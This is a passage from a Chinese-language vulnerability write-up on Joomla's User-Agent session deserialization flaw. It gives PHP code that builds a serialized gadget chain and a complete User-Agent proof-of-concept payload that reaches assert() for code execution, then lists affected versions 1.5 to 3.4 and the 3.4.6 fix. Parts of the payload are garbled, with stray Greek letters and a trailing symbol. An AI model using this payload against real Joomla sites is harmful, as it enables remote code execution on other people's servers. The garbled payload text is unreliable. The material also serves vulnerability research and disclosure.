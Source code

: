 ```
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
echo serialize($a);

```

![](http://drops.javaweb.org/uploads/images/1b4060fa6fc09a6c592dca3eabc9084330f474d5.jpg)

将这个代码生成的exp，以前面提到的注入`『|』`的变换方式，带入前面提到的user-agent中，即可触发代码执行。 其中，我们需要将`char(0)*char(0)`替换成`\0\0\0`，因为在序列化的时候，protected类型变量会被转换成`\0*\0name`的样式，这个替换在源代码中也可以看到：

```
$result = str_replace('\0\0\0', chr(0) . '*' . chr(0), $result);

```

构造的时候遇到一点小麻烦，那就是默认情况下SimplePie是没有定义的，这也是为什么我在调用SimplePie之前先new了一个JSimplepieFactory的原因，因为JSimplepieFactory对象在加载时会调用import函数将SimplePie导入到当前工作环境：

![](http://drops.javaweb.org/uploads/images/fe67cff8b19f9060db13c303afb7a9929c35d21b.jpg)

而JSimplepieFactory有autoload，所以不再需要其他include来对其进行加载。 给出我最终构造的POC（既是上诉php代码生成的POC）：

```
User-Agent: 123}__test|O:21:"JDatabaseDriverMysqli":3:{s:4:"\0\0\0a";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:5:"cache";b:1;s:19:"cache_name_function";s:6:"assert";s:10:"javascript";i:9999;s:8:"feed_url";s:37:"ρhιτhσπpinfo();JFactory::getConfig();exit;";}i:1;s:4:"init";}}s:13:"\0\0\0connection";i:1;}ð

```

给一张代码成功执行的POC：

![](http://drops.javaweb.org/uploads/images/c8b42fc5fbe05e64a6e025882aa4f34289ad6589.jpg)

0x03 影响版本 & 修复方案
================

1.5 to 3.4全版本

更新到3.4.6版本